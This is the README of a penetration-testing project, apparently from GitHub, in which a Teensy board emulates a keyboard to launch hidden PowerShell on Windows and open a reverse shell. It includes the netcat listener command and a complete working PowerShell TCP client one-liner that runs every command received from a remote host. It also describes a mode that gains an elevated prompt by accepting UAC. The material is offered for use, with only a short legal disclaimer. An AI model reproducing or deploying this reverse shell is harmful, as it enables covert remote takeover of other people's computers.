 # Pwnsy
Penetration Testing Tool for Windows 7 => 10

Idea : Peensy (Offensive Security)  
Thanks to : @samratashok for the tiny (~280 characters) PowerShell TCP Client

## What does it do
It allows to execute a reverse shell on any Windows machine with PowerShell enabled within a minimal  
amount of time, and in a stealthy manner. 

## How does it works
It uses the abilities of the Teensy boards to deploy a small powershell script, using keyboard emulation.  
The goal of this project was to find a way to launch a TCP Client that would connect to a netcat listener.  

To make it as stealthy as possible, we use the "Run" window, that can be accessed by pressing Windows +R.  
Tho, the amount of text is limited to 260 characters. So we need to run a PowerShell prompt in "Hidden"  
windowstyle, and pass the commands to execute a TCP client. Unfortunately there isn't enough place to  
make the client respond to the commands sent by the netcat listener within 260 chars. 

The solution is to wait for the netcat listener to send the complete version of the TCP Client and execute it.  
That way we can have feedback from a distant machine of what's happening on commands execution sent from the server.  

In case you need an elevated PowerShell prompt to execute script from the server, there is an admin mode  
that will run PowerShell as admin and wait for a button to be pressed to accept the UAC prompt if there is one.  
That way, it's reliable and we don't have to pray for it to pop within a fixed amount of time (no hardcoded delays involved).  

1. Hardware required
   - A Teensy board (2.0 up to 3.6)
   - Switch buttons (3) to configure the different modes without compiling it every time
   - A test PCB to put those
   
What are the buttons doing? 

Button 1. Start typing after the keyboard is ready  
Button 2. Accept the UAC prompt if there is the need to  
Button 3. Admin mode (that will modify the command typed in the Run window in order to execute an elevated  
PowerShell prompt, then wait for the button 2 to be pressed in order to continue)  

## What do I need to setup (Server side)
Simply run netcat on linux, like this :  
`netcat -l -p 1337`

I advice you to run it inside of a loop in bash, so you can exit it with Ctrl+C, because that's needed if you  
send another version of the TCP Client to the client (if you use -k netcat will close when you hit Ctrl+C)  

Once you recieve a connexion, push the complete TCP Client to the client so you can have feedback
on what you execute :  
```$b=[text.encoding]::UTF8;while(1){try{;$u=(New-Object Net.Sockets.TCPClient("0.0.0.0",1337)).GetStream();$w=New-Object byte[] 65535;while(($i=$u.Read($w,0,$w.Length)) -ne 0){$d=$b.GetString($w,0,$i);$v=$b.GetBytes((iex $d 2>&1|Out-String));$u.Write($v,0,$v.Length)}}catch{}}```  
(don't forget to replace the IP and port to fit your situation) 

Restart your netcat listener so the new client version can connect to your port  
Done! You can execute any PowerShell command and get the output in your netcat listener!

## Demo : 
[![5 Seconds Reverse Shell](https://img.youtube.com/vi/8NpX56rHsYY/0.jpg)](https://www.youtube.com/watch?v=8NpX56rHsYY)

### Notes
Intended for legal usage ONLY, I'm not liable for anything you do with this code.  
Feel free to give feedback and ideas in order to improve it!
